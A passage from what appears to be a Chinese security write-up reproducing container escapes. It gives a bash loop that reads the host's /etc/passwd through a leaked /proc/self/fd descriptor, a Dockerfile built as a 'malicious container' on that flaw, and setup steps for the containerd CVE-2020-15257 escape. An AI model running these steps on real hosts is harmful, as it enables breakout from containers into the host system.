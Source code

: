   
  
首先通过如下脚本来确定宿主机上泄露的文件描述符。  
```
#! /bin/bashfor i in {4..20}; do    docker run -it --rm -w /proc/self/fd/$i ubuntu:18.04 bash -c "cat /proc/self/cwd/../../../etc/passwd"done
```  
  
可以看到 7 之后就泄漏出宿主机文件（也就是 /proc/self/fd/8  
）。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/G9w3J4rflFjE3yfBZvejBic64oBOxbvmibhtdeFxdicsnMeKX7ViaFcHtDxKyx72UaRVFmZDKwG7DrhsJDzdOh2TOw/640?wx_fmt=png&from=appmsg "")  
  
创建 Dockerfile 文件，内容如下：  
```
FROM ubuntu:18.04RUN apt update -y && apt install netcat -y# 注意如下的值，对应上述脚本执行的结果WORKDIR /proc/self/fd/8
```  
  
构建恶意容器，并启动对应的恶意容器。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/G9w3J4rflFjE3yfBZvejBic64oBOxbvmibyktN81MHCqgyWLz562to9oh6icjibqSAnNKSHIX6b3wgaODFA8Of7qTg/640?wx_fmt=png&from=appmsg "")  
  
可以看到，成功访问到宿主机的根目录。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/G9w3J4rflFjE3yfBZvejBic64oBOxbvmibLNyicff4n7fGSTxkqqQ6pngtGuxMNicGmhCPRVfZfRyiaIdNtGsmVRNcg/640?wx_fmt=png&from=appmsg "")  
## 2. CVE-2020-15257  
  
如果启动容器的时候使用 host  
 模式，那么这个容器将不会获得一个独立的 Network Namespace  
，而是和宿主机共用一个 Network Namespace  
。  
  
漏洞参考：  
https://xz.aliyun.com/news/8511  
  
漏洞版本：  
- Containerd < 1.3.9  
  
- Containerd 1.4.0 ~ 1.4.2  
  
  
```
sudo apt updatesudo apt install ca-certificates curl software-properties-commonsudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg | apt-key add -sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu xenial stable"sudo apt updatesudo apt-cache madison docker-cesudo apt install docker-ce=5:19.03.6~3-0~ubuntu-xenial docker-ce-cli=5:19.03.6~3-0~ubuntu-xenial containerd.io=1.2.4-1# 启动容器sudo docker run -it --net=host ubuntu:18.04 bash
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/G9w3J4rflFjE3yfBZvejBic64oBOxbvmibFEtk1I0Jic5tNjkK4lQjuUpG23IVTwIfJg2KV9VAicGHalHLdz581Jcg/640?wx_fmt=png&from=appmsg "")  
  
使用最新版的 cdk 复现失败。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/G9w3J4rflFjE3yfBZvejBic64oBOxbvmibPqIjjwoYO5icoLTTGwnicDW1fgVjeSqxTuzsGibUO5XMb1iakiaKJnDvC2g/640?wx_fmt=png&from=appmsg "")  
  
这里使用老版本的 cdk 成功复现。  
  